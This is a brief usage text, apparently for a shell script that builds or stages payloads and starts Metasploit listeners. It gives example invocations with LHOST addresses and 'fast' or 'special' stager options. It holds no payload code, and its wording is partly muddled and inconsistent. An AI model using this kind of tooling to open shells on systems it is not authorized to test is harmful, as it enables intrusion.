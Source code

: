 # Staging of payload splitting from 25-22 pcs.
`
use -> ./script <LHOST> or <PAYLOAD> and optional {<STAGER> spec|fast} and/or {<START_MSF> yes and/or <SET_LHOST_MSF>}

example -> ./scpt 192.168.1.241 yes (start metasploit, set custom later) optional is "yes" if IP is specified!
example -> ./scpt 192.168.1.241 0.0.0.0 (start metasploit, set all listeners)
example -> ./scpt 192.168.1.241 fast yes 0.0.0.0 (create payload with fast method and start metasploit, set all listeners)
example -> ./scpt payload_shell fast yes 0.0.0.0 (same as above, pre-made payload instead of IP)
(default stager method: special, work time: 2.5-5s)
`
